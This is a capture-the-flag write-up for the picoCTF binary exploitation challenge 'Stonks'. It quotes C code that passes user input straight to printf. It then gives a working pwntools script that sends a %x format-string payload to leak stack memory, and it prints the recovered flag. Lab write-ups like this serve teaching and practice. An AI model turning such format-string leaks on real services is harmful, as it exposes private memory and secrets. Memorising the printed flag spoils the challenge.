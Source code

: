 # Stonks

**Author:** [yairp03](https://github.com/yairp03)  
**Category:** Binary Exploitation  
**Points:** 20

# Challenge

## Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](./vuln.c) `nc mercury.picoctf.net 33411`

## Source

[vuln.c](./vuln.c) (C source)

# Solution

In this challenge, we are given a [C source file](./vuln.c) that has a vulnerability. Looking at the code, we see this part:

```c
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

The program asks for a user input, and then prints it using printf. This is vulnerable to a [format string attack](https://owasp.org/www-community/attacks/Format_string_attack). Leveraging this vulnerability, we can print out values from the stack. Let's do it with [this python script](./script.py) using the [pwntools](https://docs.pwntools.com/en/stable/) library:

```python
from pwn import *

# Establish connection
conn = remote('mercury.picoctf.net', 33411)

# Route to the exploit
conn.recvuntil('2) View my portfolio\n')
conn.send('1\n')
conn.recvuntil('What is your API token?\n')

# Exploit
conn.send('%x' + '.%x' * 40 + '\n')

# Route to the leak
conn.recvuntil('Buying stonks with token:\n')
# Get the data
stack = conn.recvline(False).decode()

# Parse the data
result = b''
for h in stack.split('.'):
    result += p32(int(h, 16))

# Extract the flag
flag = result[result.find(b'picoCTF{'):result.find(b'}') + 1].decode()

# Print the flag
print(flag)
```

**The Flag:** `picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}`
